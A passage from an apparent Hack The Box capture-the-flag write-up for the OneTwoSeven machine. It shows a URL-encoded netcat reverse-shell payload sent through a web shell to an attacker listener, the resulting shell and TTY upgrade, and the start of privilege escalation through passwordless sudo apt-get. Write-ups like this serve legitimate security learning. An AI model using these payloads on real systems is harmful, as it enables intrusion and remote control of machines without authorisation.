 I now have RCE:

![](/assets/images/htb-writeup-onetwoseven/rce1.png)

Time to get a shell with a standard netcat reverse shell. I URL encoded the payload to avoid any issue: `GET 127.0.0.1:60080/addons/snowscan.php?cmd=rm %2ftmp%2ff%3bmkfifo %2ftmp%2ff%3bcat %2ftmp%2ff|%2fbin%2fsh -i 2>%261|nc 10.10.14.23 4444 >%2ftmp%2ff`

```
root@ragingunicorn:~/htb/onetwoseven# nc -lvnp 4444
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.10.133.
Ncat: Connection from 10.10.10.133:41952.
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=35(www-admin-data) gid=35(www-admin-data) groups=35(www-admin-data)
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-admin-data@onetwoseven:/var/www/html-admin/addons$ ^Z
[1]+  Stopped                 nc -lvnp 4444
root@ragingunicorn:~/htb/onetwoseven# stty raw -echo
fg
www-admin-data@onetwoseven:/var/www/html-admin/addons
```

### Priv esc using apt-get MITM

I saw that `www-admin-data` can run `apt-get` update and upgrade as root without any password:

```
www-admin-data@onetwoseven:/$ sudo -l
Matching Defaults entries for www-admin-data on onetwoseven:
    env_reset, env_keep+="ftp_proxy http_proxy https_proxy no_proxy",
    mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-admin-data may run the following commands on onetwoseven:
    (ALL : ALL) NOPASSWD: /usr/bin/apt-get update, /usr/bin/apt-get upgrade
```
